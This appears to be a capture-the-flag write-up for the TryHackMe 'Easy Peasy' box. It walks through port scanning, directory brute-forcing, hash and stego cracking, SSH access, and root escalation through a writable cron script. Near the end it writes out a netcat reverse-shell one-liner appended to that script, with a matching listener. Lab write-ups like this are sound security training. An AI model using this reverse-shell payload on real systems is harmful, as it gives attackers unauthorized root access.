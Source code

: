 # Easy Peasy Writeup

## TASK 1 [Enumeration with Nmap]
We'll start our enumeration process by running an nmap scan. However, I will actually be using rustscan, as it has a few extra performance bells and whistles that I prefer. So, we'll run this command:  
rustscan -a 10.10.153.96 -- -sC -sV -oA 10.10.153.96 -v -A  
with this command, we get these results:

PORT      STATE SERVICE REASON  VERSION  
80/tcp    open  http    syn-ack nginx 1.16.1  
| http-methods:   
|_  Supported Methods: GET HEAD  
| http-robots.txt: 1 disallowed entry   
|_/  
|_http-server-header: nginx/1.16.1  
|_http-title: Welcome to nginx!  
6498/tcp  open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:   
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)  
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCf5hzG6d/mEZZIeldje4ZWpwq0zAJWvFf1IzxJX1ZuOWIspHuL0X0z6qEfoTxI/o8tAFjVP/B03BT0WC3WQTm8V3Q63lGda0CBOly38hzNBk8p496scVI9WHWRaQTS4I82I8Cr+L6EjX5tMcAygRJ+QVuy2K5IqmhY3jULw/QH0fxN6Heew2EesHtJuXtf/33axQCWhxBckg1Re26UWKXdvKajYiljGCwEw25Y9qWZTGJ+2P67LVegf7FQu8ReXRrOTzHYL3PSnQJXiodPKb2ZvGAnaXYy8gm22HMspLeXF2riGSRYlGAO3KPDcDqF4hIeKwDWFbKaOwpHOX34qhJz  
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)  
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN8/fLeNoGv6fwAVkd9oVJ7OIbn4117grXfoBdQ8vY2qpkuh30sTk7WjT+Kns4MNtTUQ7H/sZrJz+ALPG/YnDfE=  
|   256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)  
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICNgw/EuawEJkhJk4i2pP4zHfUG6XfsPHh6+kQQz3G1D  
65524/tcp open  http    syn-ack Apache httpd 2.4.43 ((Ubuntu))  
| http-methods:   
|_  Supported Methods: OPTIONS HEAD GET POST  
| http-robots.txt: 1 disallowed entry   
|_/  
|_http-server-header: Apache/2.4.43 (Ubuntu)  
|_http-title: Apache2 Debian Default Page: It works  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

How many ports are open? [3]

What is the version of nginx? [1.16.1]

What is running on the highest port? [Apache]

## TASK 2 [Compromising the Machine]
Before continuing, lets download the easypeasy.txt file provided to us, as it may be useful. Upon opening it, we see its a wordlist of passwords! I'm sure we'll need this later. Now continuing with the excersize...
Since we see an obvious http server on the machine, we can run gobuster to scan for any directories that may be hidden on the server. We'll do that with this command: gobuster dir -u http://10.10.153.96/ -w /usr/share/wordlists/dirb/common.txt -o dirs.log
Where dir indicates directory mode, -u [url] -w [wordlist] -o [outputfile]
with this scan, we find two files and a directory:
/hidden               (Status: 301) [Size: 169] [--> http://10.10.153.96/hidden/]
/index.html           (Status: 200) [Size: 612]                                  
/robots.txt           (Status: 200) [Size: 43] 
The homepage is just a welcome screen indicating a successful server installation. Obviously, there is going to be more to this box than that.
First, lets check out the robots.txt file and see if there's anything off about it.
User-Agent:*
Disallow:/
Robots Not Allowed

A fairly normal robots.txt file... lets check that directory. /hidden gives us this picture:
![lost-places-1928727_960_720](https://user-images.githubusercontent.com/93058891/152861022-0d899765-34ee-44ef-be5f-293a3b6dad85.jpg)
However, I'm going to ignore the picture for now asnd instead run another gobuster scan on the /hidden directory with this command: 
gobuster dir -u http://10.10.153.96/hidden -w /usr/share/wordlists/dirb/common.txt -o dirsh.log 
results find two items:
/index.html           (Status: 200) [Size: 390]
/whatever             (Status: 301) [Size: 169] [--> http://10.10.153.96/hidden/whatever/]

Visiting this directory gives us this image:
![norway-772991_960_720](https://user-images.githubusercontent.com/93058891/152862426-d37fc980-24d8-4207-bb45-77076e5ccf27.jpg)
But worse, the title text tells us "dead end". I guess we'll investigate these pictures now. We'll start by simply inspecting the source code of the pages. The first looks normal, but on the second one, we find this...

<p hidden="">ZmxhZ3tmMXJzN19mbDRnfQ==</p>

Let's use Cyberchef to decode it. Putting the text inside the HTML into Cyberchef gives us our first flag!

Let's now move on to the other http server on the machine. To do this, just add :65524 to the end of the IP in the URL. The homepage of the site is an Apache default page. Let's run another gobuster scan on this server like this, with the port in the url: 

gobuster dir -u http://10.10.153.96:65524/ -w /usr/share/wordlists/dirb/common.txt -o dirs6.log

Nothing of note other than a robots.txt file. This one looks a little different though:

User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions

That second User-Agent looks like a hash. Trying the usual sites doesn't seem to yield a result, though. With enough research, we are able to find a site that cracks it. The result is the second flag! Now if we want to find the third flag, we can just inspect the source of the page on the 65524 port to find it.

The exercise hints at a hidden directory but gobuster failed to find anything. So let's inspect the source code. In the source, we find this line: 
<p hidden>its encoded with ba....:REDACTED</p>

This looks like an encrypting algorithm. Using the hint provided by the code, we eventually find the directory. Visiting the directory takes us to this screen:
![matrix-3109795_960_720](https://user-images.githubusercontent.com/93058891/154327480-ba5d1ebb-4f6a-4ba8-a836-dbefcdd7b01b.jpg)  
Being just another image, we'll inspect the source code. In it, we find this interesting line:    
<p>9[REDACTED]1</p>  
Using Cyberchef, we determine that this is likely a SHA-256 hash. We'll bruteforce it with the easypeasy.txt file. We'll use this command:     
   
john --wordlist=easypeasy.txt --format=gost hash.txt
  
The end result provides us with a password!  
With the password, wi then look through the directory to find a jpg file. We'll crack it using steghide. Upon Cracking, we find a secrettext.txt file. lets open that. The file contains a username and a binary encoded password. Let's decode it! 
Now with the username and password in hand, lets login with ssh:    
ssh -p 6498 boring@10.10.153.96    
Now inside the box, we find the user.txt file in the home directory. Something seems wrong with it though...  
User Flag But It Seems Wrong Like It's Rotated Or Something  
synt{REDACTED}  
We'll use a Caesar Cipher to crack the code. Upon cracking, we get the flag!  
Now all thats left is the root flag. First, I'll check sudo -l:  
Sorry, user boring may not run sudo on kral4-PC.  
Darn, thought I had something there. Looking at the tryhackme challenge page, it says the box has a vulnerable cronjob. So let's run:    
cat /etc/crontab   
SHELL=/bin/sh  
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin  
  
m h dom mon dow user  command  
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly  
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )  
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )  
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )  
  
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh  

I think we found it. Let's check if it's writeable. We go to the www directory and find:  
boring@kral4-PC:/var/www$ ls -la  
total 16  
drwxr-xr-x  3 root   root   4096 Jun 15  2020 .  
drwxr-xr-x 14 root   root   4096 Jun 13  2020 ..  
drwxr-xr-x  4 root   root   4096 Jun 15  2020 html  
-rwxr-xr-x  1 boring boring   33 Jun 14  2020 .mysecretcronjob.sh  

It is! This means we can use it to spawn a root shell using netcat. We'll edit the fie with this command:  

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.92.60 4445 >/tmp/f" >> /var/www/.mysecretcronjob.sh  

Now on our own machine we type:  
nc -lvnp 4445  
This should give us a root shell. Once we're in, all we need to do is run:  
cat /root/.root.txt  
And we get the flag!





























